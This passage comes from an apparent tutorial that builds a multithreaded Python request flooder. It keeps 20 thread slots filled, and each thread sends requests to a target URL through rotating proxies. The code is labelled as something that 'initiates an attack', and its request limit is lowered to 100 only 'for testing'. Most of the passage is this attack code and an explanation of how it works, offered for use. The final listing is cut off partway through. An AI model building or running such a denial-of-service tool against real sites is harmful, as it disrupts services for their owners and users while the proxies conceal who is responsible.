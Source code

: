 Great, so that should, in theory, create 20 threads, and then continue trying to make more. You might notice, that this time, I passed some arguments to the thread. `args = (i, )` basically tells the thread what arguments to pass to the target function. So now, when `thread.start()` is called, `self.make_request(i)` will be called, since we told the thread what parameters to use. And the reason for that comma next to the `i` is that the `args` value needs to be a tuple, and the comma, while unappealing, basically turns it into a tuple with one value. I also added `time.sleep(1)` to the end of the loop, just because it's nice to give the program a small break after iterating through that list.

Now, onto the next function, `make_request`. This is the function that uses proxy requests on a separate thread. When the function is finished, it should tell the main class that the slot in which the thread was assigned is no longer in use. This is why we pass `slot_index` to it. All we have to do, really, is say `self.threadslots[slot_index] = None`, and then a new thread will be created the next time that loop in `self.run` iterates over the emptied slot.

```python
class Main:
	def make_request(self, slot_index):
		"""makes a request to the url
		"""
		proxy = ProxyRequests(self.target) #create a proxy targeting the target URL
		proxy.get() #send the request
		
		self.completed += 1 #take note of another sucessful request
		self.threadslots[slot_index] = None #empty the slot, so that self.run knows to fill it up again
```

Ok, so that should make a request to the target, and once it's completed, it should bump the `self.completed` amount up by one, and empty the slot. Let's give it a try, shall we? Here's all of the code:

```python
import threading, time
from proxy_requests import ProxyRequests
class Main:
	def __init__(self, target='https://google.com', threadcount=20):
		"""Main initialization
		"""
		#keep track of the initial settings for this object
		self.threadcount = threadcount
		self.target = target
		
		self.completed = 0

		# a list of active threads, or None types. 
		self.threadslots = []
		# fill the slots up with blank space
		for i in range(self.threadcount): self.threadslots.append(None)
	
	def run(self):
		"""initiates an attack
		"""
		while self.completed < 100: #reduced to 100 for testing
			for i, v in enumerate(self.threadslots):
				if v == None: #there is no active thread running here
					#make request
					thread = threading.Thread(target = self.make_request, args=(i, )) #i being the slot index
					self.threadslots[i] = thread
					thread.start()
			time.sleep(1)
		
	def make_request(self, slot_index):
		"""makes a request to the url
		"""
```